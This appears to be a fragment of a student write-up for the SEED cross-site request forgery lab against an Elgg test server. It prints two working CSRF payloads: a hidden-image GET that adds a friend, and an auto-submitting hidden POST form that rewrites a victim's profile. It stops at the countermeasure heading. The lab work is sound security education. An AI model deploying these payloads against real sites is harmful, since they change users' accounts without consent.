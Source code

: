 \documentclass[10pt,\jkfside,a4paper]{article}
\begin{document}
I observed the \texttt{GET} request made by legitimate friend requests and
made the source of the image in \texttt{addfriend} make this \texttt{GET}
request. I changed \texttt{addfriend.html} to the following and
successfully executed cross-site request forgery:
\begin{lstlisting}[language=html]
<html>
<body>
<h1>This page forges an HTTP GET request</h1>
<img src="http://www.seed-server.com/action/friends/add?friend=59"
	alt="image" width="1" height="1">
</body>
</html>
\end{lstlisting}

\subsection{Task 3: CSRF Attack using POST Request}

I observed the \texttt{POST} request made by legitimate edits and edited the
code supplied to send the \texttt{POST} to the same URL; and filled in the
appropriate values:
\begin{lstlisting}[language=html]
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero!'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}


// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}

\subsection{Task 4: Enabling Elgg's Countermeasure}
\end{document}
